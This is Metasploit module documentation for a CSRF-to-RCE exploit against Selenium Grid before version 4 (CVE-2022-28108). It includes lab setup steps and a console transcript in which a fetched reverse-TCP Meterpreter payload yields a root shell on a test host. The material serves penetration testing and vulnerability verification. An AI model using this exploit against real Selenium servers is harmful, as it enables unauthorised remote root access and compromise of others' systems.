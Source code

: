 ## Vulnerable Application

Selenium Server (Grid) before 4 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4

This module was successfully tested on:

    * selenium/standalone-firefox:3.141.59 installed with Docker on Ubuntu 20.0.4


### Installation

1. `docker pull selenium/standalone-firefox:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-firefox:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_firefox_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ysvWeotTGNTE     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_firefox_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4445
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version 3.141.59 detected, which is vulnerable
[+] The target appears to be vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:34690) at 2024-12-28 12:17:05 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

